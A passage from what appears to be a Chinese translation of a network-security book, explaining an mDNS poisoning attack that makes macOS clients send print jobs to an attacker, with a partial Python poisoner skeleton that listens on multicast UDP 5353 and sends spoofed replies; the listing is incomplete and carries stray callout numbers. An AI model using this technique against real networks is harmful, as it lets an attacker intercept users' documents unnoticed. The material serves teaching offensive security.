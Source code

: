 你应该看到来自 ippserver 的类似输出。

#### 创建 mDNS 中毒器

我们将用 Python 编写的 mDNS 中毒器监听 UDP 端口 5353 上的多播 mDNS 流量，直到它找到一个客户端尝试连接到打印机，然后发送回复。图 6-12 展示了相关的步骤。

![f06012](img/f06012.png)

图 6-12：mDNS 中毒攻击步骤

首先，攻击者监听 UDP 端口 5353 上的多播 mDNS 流量。当 macOS 客户端重新发现`test`网络打印机并发送 mDNS 查询时，攻击者会持续向中毒客户端的缓存发送回复。如果攻击者在合法打印机之前赢得了竞赛，攻击者就成为了中间人，处理来自客户端的流量。客户端将文档发送给攻击者，攻击者然后可以将文档转发给打印机，以避免被发现。如果攻击者没有将文档转发给打印机，用户可能会怀疑文档未被打印。

我们将通过创建一个框架文件（Listing 6-2）开始，然后实现一个简单的网络服务器功能，用于监听多播 mDNS 地址。请注意，该脚本是用 Python 3 编写的。

```
 #!/usr/bin/env python
  import time, os, sys, struct, socket
  from socketserver import UDPServer, ThreadingMixIn
  from socketserver import BaseRequestHandler
  from threading import Thread
  from dnslib import *

  MADDR = ('224.0.0.251', 5353)
class UDP_server(ThreadingMixIn, UDPServer): 1
    allow_reuse_address = True
    def server_bind(self):
      self.socket.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)  
      mreq = struct.pack("=4sl", socket.inet_aton(MADDR[0]), socket.INADDR_ANY)
      self.socket.setsockopt(socket.IPPROTO_IP, 2socket.IP_ADD_MEMBERSHIP, mreq)
      UDPServer.server_bind(self)

  def MDNS_poisoner(host, port, handler): 3
    try:
      server = UDP_server((host, port), handler)
      server.serve_forever()
 except:
      print("Error starting server on UDP port " + str(port))

class MDNS(BaseRequestHandler):
    def handle(self):
      target_service = ''
      data, soc = self.request
      soc.sendto(d.pack(), MADDR)
      print('Poisoned answer sent to %s for name %s' % (self.client_address[0], target_service))

def main(): 4
    try:
      server_thread = Thread(target=MDNS_poisoner,  args=('', 5353, MDNS,))
      server_thread.setDaemon(True)
```